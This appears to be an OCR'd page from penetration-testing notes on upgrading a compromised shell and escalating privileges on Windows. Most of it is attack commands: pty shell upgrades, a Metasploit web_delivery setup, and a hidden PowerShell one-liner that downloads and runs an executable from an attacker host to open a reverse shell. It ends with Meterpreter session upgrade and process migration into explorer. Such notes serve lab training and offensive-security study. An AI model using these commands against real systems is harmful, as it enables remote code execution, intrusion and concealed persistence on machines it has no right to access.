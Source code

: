 ### Upgrading shells

```bash
/bin/bash -i
python -c "import pty;pty.spawn('/bin/bash')"
perl -e 'exec "/bin/bash"'

root@victim> env
root@victim> export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@victim> env
root@victim> export TERM=xterm
root@victim> export SHELL=bash
```

### Windows privilege escalation

#### PrivEscCheck

* In order to elevate your privileges on Windows, you must first identify privilege escalation vulnerabilities that exist on the target system.
* This process will differ greatly on the type of target you gain access to. Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
* This process can be quite tedious and time consuming and as a result, it is recommended to automate the processes of identifying privilege escalation vulnerabilities. This can be done through the use of various automation scripts
* **PricescCheck** is a script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gathers various information that might be useful for exploitation and/or post-exploitation (https://github.com/itm4n/PrivescCheck).

```bash
msf6> use exploit/multi/script/web_delivery
msf6> set LHOST eth1
msf6> set target PSH\ (Binary)
msf6> set PSH-EncodedCommand false
msf6> run
```

It open a web listener on the attacker and generate a piece of PowerShell code :

```powershell
powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\i8O16o8J.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.9.2:8080/sNfNARVJQJl', $z); invoke-item $z
```

Copy/paste this code on the target prompt command and the attacker gets a reverse shell on his terminal.

```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> set win_transfer VBS
msf6> set session 1
msf6> run

meterpreter> pgrep explorer
meterpreter> migrate 4992
meterpreter> shell
```
